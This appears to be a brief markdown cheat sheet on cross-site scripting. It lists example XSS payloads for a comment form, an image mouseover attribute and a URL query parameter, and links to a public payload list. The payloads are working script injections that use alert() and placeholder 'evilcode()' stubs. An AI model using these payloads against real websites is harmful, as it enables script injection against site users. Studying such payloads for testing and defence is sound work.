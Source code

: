# XSS

## XSS payload

Example :

* N°1 : 
```bash=
<script\x20type="text/javascript">javascript:alert(1);</script>
```

[XSS Github](https://github.com/payloadbox/xss-payload-list)

## Formulaire

Insert in form the following lines :
```bash=
<!-- Normal comment--><p>Your comment goes here </p> <!--Malicious comment--><p><script>evilcod()</script></p>
```

Results in source code :
![](img/xss1.png)

Other example : 
```bash=
<img src='LINK' onmouseover="alert('xss')">
```
![](img/xss3.png)



## URL
Here's a quick example of an URL with malicious javascript included:
```<https://somewebsite.com/titlepage?id=> <script> evilcode() </script> ```

Results in website :
![](img/xss2.png)


